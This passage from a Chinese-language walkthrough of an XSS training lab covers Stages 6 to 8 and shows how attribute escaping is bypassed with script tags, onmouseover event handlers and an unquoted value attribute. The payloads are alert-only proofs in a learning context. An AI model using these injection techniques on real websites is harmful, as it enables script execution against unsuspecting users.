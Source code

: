 	"><script>alert(document.domain);</script>

##### Stage #6

	 event handler attribute   事件处理属性

输入的内容又是被转义了。

	<input type="text" name="p1" size="50" value="&lt;&gt;""&amp;">

使用事件型标签。

	123" onmouseover="alert(document.domain);

输出内容

	<input type="text" name="p1" size="50" value="123" onmouseover="alert(document.domain);">

##### Stage #7

	early the same... but a bit more tricky

同样是被转义了。

	<input type="text" name="p1" size="50" value=&lt;&gt;&quot;&quot;&amp;>


这一次的双引号和单引号也被转义了。`"`输入`""`

输出

	<input type="text" name="p1" size="50" value=&quot;&quot;> 
	
输出的内容

	<input type="text" name="p1" size="50" value=11111111>

`value`字段没有被引号包裹。

直接输入

	onmouseover=alert(document.domain);

输出的内容为：

	<input type="text" name="p1" size="50" value=onmouseover=alert(document.domain);>

`payload`没有起到作用，加一个参数值。

输出的内容，`payload`可以执行成功。

	<input type="text" name="p1" size="50" value=2 onmouseover=alert(document.domain);>

##### Stage #8

	 the 'javascript' scheme

输出的内容。

	<input type="submit" value="Make a Link"><hr class=red>URL: <a href="11111111">11111111</a><hr class=red></form>

使用`javascript`伪协议。

输入内容
